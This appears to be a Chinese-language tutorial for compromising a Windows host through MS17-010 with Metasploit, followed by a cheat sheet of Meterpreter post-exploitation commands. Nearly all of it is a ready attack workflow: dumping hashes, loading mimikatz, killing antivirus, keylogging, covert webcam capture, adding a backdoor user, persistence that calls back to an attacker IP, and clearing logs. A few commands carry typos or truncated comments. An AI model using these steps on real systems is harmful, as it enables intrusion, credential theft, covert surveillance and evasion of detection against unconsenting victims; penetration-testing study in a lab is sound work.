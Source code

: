 - 利用VMware打开kaili虚拟机，并打开命令终端输入，打开工具msf
  ```
  msfconsole
  ```

- 搜索ms17-010模块
  ```
  search ms17-010
  ```
- 选择需要使用的模块
  ```
  use [模块名] 或者use 0
  ```

- 设置攻击载荷
  ```
  set payload
  #msf6会默认设置好payload
  ```

- 设置靶机ip
  ```
  set RHOST [ip]
  ```

- 执行攻击
  ```
  run
  ```

攻击成功后回显WIN，回弹shell meterpreter进入后渗透测试阶段

- 输入shell即可切换目标的windows shell，要想从目标主机shell退出到exit
- 如果出现乱码输入
  ```
  chcp 65001
  ```

输入： 

```
sessions -l
```

查看我们获得的shell，前面有id

- 输入： sessions -i 1 
  ```
  sessions -i 1
  ```

即可切换到id为1的shell

- 输入
  ```
  shell
  ```

即可进入cmd类型的控制

下面给出一些cmd常见命令：

```
sysinfo      #查看目标主机系统信息
run scraper    #查看目标主机详细信息
run hashdump   #导出密码的哈希
load kiwi     #加载mimikatz
ps       #查看目标主机进程信息
pwd     #查看目标当前目录(windows)
getlwd     #查看目标当前目录(Linux)
search -f *.jsp -d e:\      #搜索E盘中所有以.jsp为后缀的文件
download e:\test.txt /root     #将目标机的e:\test.txt文件下载到/root目录下
upload /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid          #查看当前Meterpreter Shell的进程PID
migrate 1384        #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime       #查看主机运行时间
getuid        #查看获取的当前权限
getsystem       #提权,获得的当前用户是administrator才能成功
run killav       #关闭杀毒软件
screenshot       #截图
webcam_list      #查看目标主机的摄像头
webcam_snap      #拍照
webcam_stream    #开视频
execute 参数 -f 可执行文件    #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e     #开启远程桌面
keyscan_start       #开启键盘记录功能
keyscan_dump    #显示捕捉到的键盘记录信息
keyscan_stop   #停止键盘记录功能
uictl disable keyboard    #禁止目标使用键盘
uictl enable keyboard   #允许目标使用键盘
uictl disable mouse    #禁止目标使用鼠标
uictl enable mouse    #允许目标使用鼠标
load    #使用扩展库
run     #使用扩展库
run persistence -X -i 5 -p 8888 -r 192.168.10.27    #反弹时间间隔是5s 会自动连接
192.168.27的4444端口，缺点是容易被杀毒软件查杀
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本
地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
clealev      #清除日志
```
